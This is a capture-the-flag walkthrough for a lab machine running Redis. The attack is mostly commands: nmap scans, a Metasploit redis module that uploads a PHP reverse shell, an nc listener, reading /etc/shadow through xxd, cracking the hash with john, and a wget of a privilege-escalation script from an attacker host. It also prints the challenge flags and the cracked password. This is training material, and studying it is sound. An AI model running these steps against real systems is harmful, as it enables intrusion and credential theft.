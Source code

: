 # Res

#### Scan the machine, how many ports are open?

```bash
nmap -p- 10.10.242.197
# 80/tcp   open  http
# 6379/tcp open  redis
```

{% hint style="success" %}
`2`
{% endhint %}

#### What's is the database management system installed on the server?

{% hint style="success" %}
`Redis`
{% endhint %}

#### What port is the database management system running on?

{% hint style="success" %}
`6379`
{% endhint %}

#### What's is the version of management system installed on the server?

```bash
nmap -sV -p6379 10.10.242.197
# 6379/tcp open  redis   Redis key-value store 6.0.7
```

{% hint style="success" %}
`6.0.7`
{% endhint %}

#### Compromise the machine and locate user.txt

```
sudo msfdb run
msf > search type:auxiliary redis
msf > use 3
msf > set LocalFile 10.10.242.197
msf > set RHOSTS 10.10.187.15
msf > set LocalFile /home/kali/php-reverse-shell.php
msf > set RemoteFile /var/www/html/shell.php
```

```bash
nc -nvlp 4444
# python -c 'import pty; pty.spawn("/bin/sh")'
# ls /home/
# ls /home/vianka/
# cat /home/vianka/user.txt
```

{% hint style="success" %}
`thm{red1s_rce_w1thout_credent1als}`
{% endhint %}

#### What is the local user account password?

```bash
xxd /etc/shadow | xxd -rp | grep vianka
```

```bash
echo -n '$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0' > sha512.hash 
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt sha512.hash
```

{% hint style="success" %}
`beautiful1`
{% endhint %}

#### Escalate privileges and obtain root.txt

```
wget http://10.17.20.154/suid3num.py -P /tmp/
python /tmp/suid3num.py
xxd /root/root.txt | xxd -rp
```

{% hint style="success" %}
`thm{xxd_pr1v_escalat1on}`
{% endhint %}

#### Reference

{% embed url="https://zhuanlan.zhihu.com/p/280846428" %}
